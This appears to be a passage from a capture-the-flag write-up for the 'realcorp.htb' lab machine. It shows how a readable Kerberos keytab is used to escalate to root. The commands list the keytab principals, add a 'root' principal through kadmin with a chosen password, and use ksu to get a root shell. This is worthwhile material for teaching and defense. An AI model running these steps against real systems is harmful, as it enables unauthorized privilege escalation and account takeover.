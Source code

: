 A [keytab](https://kb.iu.edu/d/aumh) file contains Kerberos principals and encrypted keys and can be used to authenticate to systems without using a password.
Anyone with read permissions on a **keytab** file can use all the keys in it.

Reading the keys in the keytab file:
```
klist -k /etc/krb5.keytab
```
```
host/srv01.realcorp.htb@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/admin@REALCORP.HTB
```

With these principals, it is possible to change passwords and create users and much more.

Listing all principals:
```
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB -q "list_principals"
```

Creating a new principal with the username _root_:
```
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB -q "add_principal -pw Pass1234 root@REALCORP.HTB"
```

Switching users to root:
```
[admin@srv01 ~]$ ksu

Kerberos password for root@REALCORP.HTB: :
```

After using the newly set password, it switches users and a shell as root is gained!
